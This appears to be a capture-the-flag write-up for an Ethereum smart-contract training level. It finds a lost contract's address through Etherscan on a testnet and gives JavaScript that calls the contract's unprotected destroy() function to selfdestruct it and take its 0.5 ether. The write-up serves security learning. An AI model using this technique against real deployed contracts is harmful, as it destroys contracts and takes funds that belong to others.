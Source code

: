 > This level will be completed if you can recover (or remove) the 0.5 ether from the lost contract address.

The creator of this contract lost its address and cannot recover their tokens!

Our first goal is clear - figure out this contract's address.

Our second goal is figuring out how to recover or remove that `0.5 ether`. If you remember challenge 7, Force, the solution should be clear. Once we have the contract address, all we need to do is call `destroy()` which `selfdestructs()` the contract (lets send ourselves its ether, too).

## Solution
1. Pull up Etherscan (rinkeby) and look up our contract instance, then navigate to the "Internal Txns" tab. The latest transaction you see should have a "To" of "Contract Creation". Follow that link and copy that contract address. In your console, save that to a variable
```javascript
let tokenAddr = '<YOUR CONTRACT CREATION ADDR>'
```
2. Next, define a function call to `destroy()`
```javascript
functionSignature = {
    name: 'destroy',
    type: 'function',
    inputs: [
        {
            type: 'address',
            name: '_to'
        }
    ]
}

params = [player]

data = web3.eth.abi.encodeFunctionCall(functionSignature, params)
```
3. Lastly, send the `destroy()` call to the function at `tokenAddr`
```javascript
await web3.eth.sendTransaction({from: player, to: tokenAddr, data})
```
4. Submit your instance and win!